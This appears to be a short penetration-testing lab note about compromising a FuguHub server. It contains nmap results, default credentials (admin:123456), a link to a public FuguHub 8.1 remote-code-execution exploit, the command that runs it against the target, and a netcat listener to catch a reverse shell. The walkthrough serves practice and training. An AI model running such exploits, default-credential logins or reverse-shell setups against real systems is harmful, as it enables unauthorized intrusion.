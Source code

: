 ____
> [!info]
> 192.168.190.25
> Linux
# Nmap

| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 8082/tcp | open | blackice-alerts |
| 9999/tcp | open | abyss |


```python
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| http-webdav-scan: 
|   Server Date: Thu, 01 Feb 2024 17:29:21 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   Server Date: Thu, 01 Feb 2024 17:29:21 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Not valid before: 2019-07-16T19:15:09
|_Not valid after:  2074-04-18T19:15:09
|_http-server-header: BarracudaServer.com (Posix)
|_http-title: Home
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
```



# 8082
- admin:123456
- FuguHub

https://www.exploit-db.com/exploits/51550
* FuguHub 8.1 - Remote Code Execution*

>[!warning]
>File server not found.  /fs/cmsdocs/

#### /fs

![[Pasted image 20240201184612.png]]


```bash
python3 51550.py -r 192.168.190.25 -rp 8082 -l 192.168.45.180 -p 80
```

![[Pasted image 20240201184745.png]]

```bash
nc -lvnp 80
```













